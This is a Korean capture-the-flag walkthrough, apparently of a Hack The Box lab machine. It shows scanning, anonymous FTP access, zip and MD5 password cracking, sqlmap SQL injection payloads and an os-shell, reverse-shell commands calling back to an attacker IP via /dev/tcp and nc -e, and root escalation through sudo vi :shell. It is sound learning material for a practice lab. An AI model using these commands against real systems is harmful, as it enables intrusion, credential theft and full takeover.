


nmap scan 결과를 우선 보자.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# nmap 10.129.19.142 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 13:37 UTC
Nmap scan report for 10.129.19.142
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

gobuster 수집 결과는 아래와 같다.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# gobuster dir -u http://10.129.19.142 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.19.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2312]
/license.txt          (Status: 200) [Size: 1100]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/dashboard.php        (Status: 302) [Size: 931] [--> index.php]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

열려 있는 ftp 서비스에 익명으로 접근해보니 성공적으로 연결되었다. 연결 이후 존재하는 파일을 다운로드 하였다.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# ftp anonymous@10.129.19.142
Connected to 10.129.19.142.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10906|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

다운로드 한 파일을 압축해제 하려 했으나 암호가 걸려있다. 파일 리스트만 확인해보니 index.php, style.css 이렇게 2개 파일이 존재하고 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:

┌──(root㉿9048af13b510)-[/htb]
└─# unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2594  2020-02-03 10:57   index.php
     3274  2020-02-03 19:04   style.css
---------                     -------
     5868                     2 files
```

압축 파일에 대해 패스워드를 크랙하기 위해 john the ripper를 사용할 수 있다. 아래와 같이 zip2john와 john을 활용해보자.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# zip2john backup.zip >hash.txt
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8

┌──(root㉿9048af13b510)-[/htb]
└─# cat hash.txt
backup.zip:$pkzip$2*1*1*0*8*24*5722*543fb39ed1a919ce7b58641a238e00f4cb3a826cfb1b8f4b225aa15c4ffda8fe72f60a82*2*0*3da*cca*1b1ccd6a*504*43*8*3da*989a*...

┌──(root㉿9048af13b510)-[/htb]
└─# john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)
1g 0:00:00:00 DONE 2/3 (2024-02-26 14:00) 11.11g/s 2505Kp/s 2505Kc/s 2505KC/s 123456..Sssing
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

획득한 비밀번호로 압축을 성공적으로 해제 할 수 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
  inflating: index.php
  inflating: style.css

┌──(root㉿9048af13b510)-[/htb]
└─# ls -al
total 1164
drwxr-xr-x 2 root root    4096 Feb 26 14:01 .
drwxr-xr-x 1 root root    4096 Feb 26 13:51 ..
-rw-r--r-- 1 root root    2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root    3274 Feb  3  2020 style.css
```

압축 해제한 index.php의 내용을 보니 흥미롭게도 패스워드의 md5 값 비교 부분이 있다. 해당 md5 값을 만들어내는 평문을 찾아서 입력해주면 admin으로 로그인이 가능할 듯 하다.
``` php
┌──(root㉿9048af13b510)-[/htb]
└─# cat index.php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

마찬가지로 john을 통해 md5값의 주인을 찾아보자. format=raw-md5 를 지정해주어야 한다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# echo 2cb42f8734ea607eefed3b70af13bbd3 > md5.txt

┌──(root㉿9048af13b510)-[/htb]
└─# john --format=raw-md5 md5.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
```

타 사용자의 글을 리서치 해보니 hashcat으로 가능한 듯 하여 동시에 실행해놓았다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# hashcat -a 0 -m 0 md5.txt

Session..........: hashcat
Status...........: Running
Hash.Mode........: 0 (MD5)
Hash.Target......: 2cb42f8734ea607eefed3b70af13bbd3
Time.Started.....: Mon Feb 26 14:17:33 2024 (1 min, 50 secs)
Time.Estimated...: Mon Feb 26 14:19:23 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: Pipe
Speed.#1.........:        0 H/s (0.00ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 0
Rejected.........: 0
Restore.Point....: 0
Restore.Sub.#1...: Salt:0 Amplifier:0-0 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: [Copying]
```
그러던 중 아래 사이트를 발견하게 되었는데, 압도적으로 빠르게 결과를 찾아주어 용이하다.
> https://crackstation.net/



이제 획득한 패스워드 평문 값('qwerty789')을 통해 로그인 시 Dashboard 화면이 나타난다. SEARCH 부분에 sql injection 테스트를 해보니 에러 문구를 통해 가능할 것으로 보인다.


자세한 테스트를 위해 sqlmap으로도 확인해보았다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# sqlmap -u 'http://10.129.107.51/dashboard.php?search=1' --cookie="PHPSESSID=sfbh6um3n94qpnm05vaq842sss" dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.11#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:33:44 /2024-02-26/
...
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=1' AND (SELECT (CASE WHEN (4027=4027) THEN NULL ELSE CAST((CHR(99)||CHR(105)||CHR(66)||CHR(73)) AS NUMERIC) END)) IS NULL-- TImU

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=1' AND 6785=CAST((CHR(113)||CHR(122)||CHR(122)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (6785=6785) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(98)||CHR(98)||CHR(113)) AS NUMERIC)-- zqts

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries
    Payload: search=1';SELECT PG_SLEEP(5)-- pljM

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=1' AND 3067=(SELECT 3067 FROM PG_SLEEP(5))-- SpUa
---
[20:34:42] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[20:34:46] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.129.107.51'

[*] ending @ 20:34:46 /2024-02-26/
```

그러던 중 sqlmap에 os-shell이란 인자가 있음을 알았고, 해당 인자를 사용하면 원격으로 쉘을 연결할 수 있게 도와준다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# sqlmap -u 'http://10.129.107.51/dashboard.php?search=1' --cookie="PHPSESSID=sfbh6um3n94qpnm05vaq842sss" --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[21:16:05] [INFO] fingerprinting the back-end DBMS operating system
[21:16:07] [INFO] the back-end DBMS operating system is Linux
[21:16:08] [INFO] testing if current user is DBA
[21:16:09] [INFO] retrieved: '1'
[21:16:09] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[21:16:09] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a]
[21:16:22] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```

os-shell로 접속 후 바로 user.txt의 flag를 확인할 수 있다.
``` bash
os-shell> ls /var/lib/postgresql
[21:18:17] [INFO] retrieved: '11'
[21:18:18] [INFO] retrieved: 'user.txt'
command standard output:
---
11
user.txt
---

os-shell> cat /var/lib/postgresql/user.txt
[21:18:48] [INFO] retrieved: 'ec9b13ca4d6229cd5cc1e09980965bf7'
command standard output: 'ec9b13ca4d6229cd5cc1e09980965bf7'
```

nc 파일을 대상 서버로 옮겨 리버스 쉘을 맺으려 했으나 자꾸 실패하였다. 원래라면 그냥 불편하게 os-shell을 통해 해도 되지만, 이상하게도 해당 방식으로 파일의 내용을 출력하거나 할 경우 나오지 않는 경우가 많아 해결이 필요했다.
``` bash
# 대상 서버
os-shell> /var/lib/postgresql/nc 10.10.14.175 443 -e sh
[23:31:17] [WARNING] the SQL query provided does not return any output
[23:31:17] [INFO] retrieved:
No output

# 공격자 서버
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.250.55: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.250.55] 50172
```

아래는 파일 내용이 분명 존재하는 파일이지만, os-shell로는 확인이 불가한 특이한 현상이 발생하였다. 파일 내용을 보려면 하나하나 python 서버를 띄워 별도로 옮기는 불편한 과정이 발생한다.
``` bash
os-shell> cat /var/www/html/dashboard.php

[04:30:30] [WARNING] the SQL query provided does not return any output
[04:30:30] [INFO] retrieved:
No output
```

결국 shell 연결하는 방법은 다른 사람의 글을 참고했다. 왜인지는 모르겠으나, `bash -c`를 붙여서 실행해주어야 한다. 그렇지 않을 경우 쉘이 연결되지 않으며 nc의 경우 해당 방식으로도 실패한다. 
``` bash
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```

이후 [shell 입출력 연결](https://read-min.github.io/posts/shell-io-conntect/)을 진행하고, 주요 파일을 찾던 중 dashboard.php에 현재 로그인한 계정의 password 정보가 있음을 하나 하나 찾아 보았다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# cat /var/www/html/dashboard.php| grep password
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

이미 로그인한 계정의 password 정보를 갖고 어디에 사용하는가 했더니 `sudo -l` 명령을 통해 지금 로그인한 계정으로 `sudo` 실행 가능한 명령어 목록을 볼 수 있다.
``` bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

`/bin/vi /etc/postgresql/11/main/pg_hba.conf`을 실행하여 해당 파일의 내용을 볼 수 있다. (사실 파일 내용은 중요하지 않았다.)
> pg_hba.conf는 PostgreSQL 데이터베이스 서버에서 클라이언트의 연결을 어떻게 허용 또는 거부할지를 정의하는 PostgreSQL Host-Based Authentication Configuration 파일입니다. 
``` bash
# TYPE  DATABASE        USER            ADDRESS                 METHOD

local   all             postgres                                ident
# "local" is for Unix domain socket connections only
local   all             all                                     peer
# IPv4 local connections:
host    all             all             127.0.0.1/32            md5
# IPv6 local connections:
host    all             all             ::1/128                 md5
# Allow replication connections from localhost, by a user with the
# replication privilege.
local   replication     all                                     peer
host    replication     all             127.0.0.1/32            md5
host    replication     all             ::1/128                 md5
```

파일 내용이 중요하지 않다고 한 것은 바로 vi(vim)의 기능 중에 `:shell` 이란 기능을 통해 실행 권한에 따른 shell을 획득 할 수 있다. 여기서 중요한점은 `/bin/vi /etc/postgresql/11/main/pg_hba.conf` 실행 시 앞에 꼭 `sudo`를 붙여야 한다. 그렇지 않으면 일반 권한으로 실행되기에 붙여야 한다.
``` bash
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# The first field is the connection type: "local" is a Unix-domain
# socket, "host" is either a plain or SSL-encrypted TCP/IP socket,
# "hostssl" is an SSL-encrypted TCP/IP socket, and "hostnossl" is a
# plain TCP/IP socket.
#
:shell
```
이제 root shell을 획득하여 아래와 같이 flag를 볼 수 있다.
``` bash
root@vaccine:/var/lib/postgresql/11/main# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
```

참고로 `sudo -l`을 통해 실행 가능한 명령어는 root 권한으로 visudo를 입력하여 설정 가능하며, 아래와 같이 postgres에 위에서 보았던 vi 명령어가 등록되어 있는 것을 볼 수 있다.
``` bash
root@vaccine:/var/lib/postgresql# sudo visudo

...
##
## User privilege specification
##
root ALL=(ALL) ALL

## Uncomment to allow members of group wheel to execute any command
# %wheel ALL=(ALL) ALL

## Same thing without a password
# %wheel ALL=(ALL) NOPASSWD: ALL

## Uncomment to allow members of group sudo to execute any command
%sudo   ALL=(ALL) ALL

## Uncomment to allow any user to run sudo if they know the password
## of the user they are running the command as (root by default).
# Defaults targetpw  # Ask for the password of the target user
# ALL ALL=(ALL) ALL  # WARNING: only use this together with 'Defaults targetpw'

## Read drop-in files from /etc/sudoers.d
@includedir /etc/sudoers.d

postgres ALL=(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

`sudo -l`, `vi -> shell`, `sqlmap->os-shell`, `crack` 등 다양한 지식이 필요한 문제였다. 모르는 부분이 많았던 만큼, 추후에 도움이 되지 않을까 싶다.


